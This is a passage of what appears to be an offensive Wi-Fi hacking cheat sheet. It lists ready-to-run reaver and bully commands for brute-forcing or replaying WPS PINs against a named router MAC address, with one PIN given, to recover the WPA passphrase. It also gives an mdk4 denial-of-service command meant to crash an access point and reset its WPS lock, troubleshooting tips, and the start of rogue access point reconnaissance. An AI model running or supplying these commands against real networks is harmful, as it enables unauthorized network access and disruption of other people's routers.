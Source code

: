#### 🔹 Resume Reaver After Failure

`sudo reaver -i wlan0mon -b 34:08:04:09:3D:38 -vv`

When WPS transaction fails, restart without `-K` to resume from saved session.

---

#### 🔹 Force WPS Lock Bypass (mdk4 DoS)

`mdk4 wlan0mon a -a 34:08:04:09:3D:38`

Launches authentication DoS attack to crash AP and potentially reset WPS lock.

---

#### 🔹 One-PIN Try with Bully

`bully -d wlan0mon -b 34:08:04:09:3D:38 -B -p 96039620`

Uses a single known PIN to retrieve the WPA passphrase quickly.

⚠️ **Common Issues and Solutions**

|Issue|Solution|
|---|---|
|WPS Transaction Failure|Restart `reaver` without `-K`, or try a different wireless adapter.|
|ACK Issues (Same PIN loop)|Use a different wireless adapter for better compatibility.|
|WPS Lock|Use `mdk3` or `mdk4` DoS attack to force the router to reboot.|

---

💡 **Quick Tips**

- Always try **PixieWPS** first — it's much faster.
    
- Not all routers are vulnerable to the **PixieWPS** attack.
    
- Some networks **lock WPS automatically** after several failed attempts.
    
- Some wireless adapters are **not compatible** with `reaver` or `bully`, especially regarding **ACKs** or **association** failures.

---------------------
### 📘 **Rogue Access Points**

🔹 **Start Recon with Airodump-ng**

`sudo airodump-ng -w discovery --output-format pcap wlan0mon`

Captures nearby APs and clients into a `.pcap` file for further analysis.

---

🔹 **Analyze Beacon Frames in Wireshark**

`Filter: wlan.fc.type_subtype == 0x08 && wlan.ssid == "Mostar"`
